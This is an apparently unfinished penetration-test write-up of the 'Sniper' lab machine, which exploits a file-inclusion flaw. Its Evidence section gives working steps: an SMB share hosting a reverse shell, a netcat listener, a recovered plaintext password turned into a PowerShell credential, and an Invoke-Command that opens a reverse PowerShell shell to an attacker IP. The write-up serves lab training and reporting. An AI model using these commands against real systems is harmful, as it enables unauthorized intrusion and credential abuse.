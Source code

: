 
# Executive Summary – Sniper 
A vulnerability was discovered in the web application that allows the server to reveal and access files it should keep private. During testing, this weakness allowed the application to retrieve files from external sources, which in turn exposed sensitive information such as user credentials. These credentials were then used to access a local account on the server. Because the exposed credentials could potentially be reused across other systems, this creates a credible risk for an attacker to move laterally within the network and gain access to additional systems or sensitive data.

# Remote File Inclusision 

## Description
To do 


## Impact 
High. The vulnerability allowed disclosure of confidential information (including cleartext credentials and user identifiers) via file inclusion. Those credentials were validated against a host account, enabling account takeover of a local user. With valid credentials and file‑disclosure capability, an attacker could perform lateral movement, access sensitive data, and — in worst‑case scenarios — achieve remote command execution on other systems. This has direct consequences for confidentiality, integrity, and availability of the affected environment.

## Likelihood:
The filename-construction pattern (user_input + extensions → blog-es.php) is a well-known indicator that testers and attackers will probe for Local File Inclusion (LFI). Because the application builds filenames from user-controlled input, the probability that an attacker can manipulate this to read arbitrary local files is high unless the input is strictly validated or mapped to a whitelist.


## Evidence:

1. Turn on Bupr Suite and suite and change to a known windows location. As you can see we have exposure of file. 
    <img src="images/LFI-test.png" alt="LFI test">

2. Turn Public folder into SMB and upload Remote Code Execution shell 
    impacket-smbserver -smb2support SMB1 /home/franky/Public 
3. Create reverse shell and upload file to smb folder
4. Start Netcat `nc -lvnp 1234`
5. Upload file to server 
    <img src="images/smb-uploadt.png" alt="smb upload">
6. Look for files on server and will find a password 
<img src="images/password.png" alt="password found">
7. Change dirctory to C:\Users to find other user Chris 
8. Creates a PSCredential for SNIPER\Chris using password we found and uses it to remote machine SNIPER as Chris. 

`$pass = "36mEAhz/B8xQ~2VM"`

`$pass = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force`

`$cred = New-Object  System.Management.Automation.PSCredential("SNIPER\\Chris", $pass)`

Check to see if it was successful 

`Invoke-Command -ComputerName SNIPER -Credential $cred -ScriptBlock {whoami} `

9. Run netcat from an SMB share on SNIPER (authenticating as $cred) to create a reverse PowerShell shell back to our machine as Chris. 

` Invoke-Command -ComputerName SNIPER -Credential $cred -ScriptBlock {\\10.10.16.34\smb1\nce.exe 10.10.16.34 9001 -e powershell}`

Note: If have issues use Test-Path to see if issue with acessing SMB 

<img src="images/rce-chris.png" alt="rce chris">

Have access to the user Chris terminal  

<img src="images/chris.png" alt="chris">







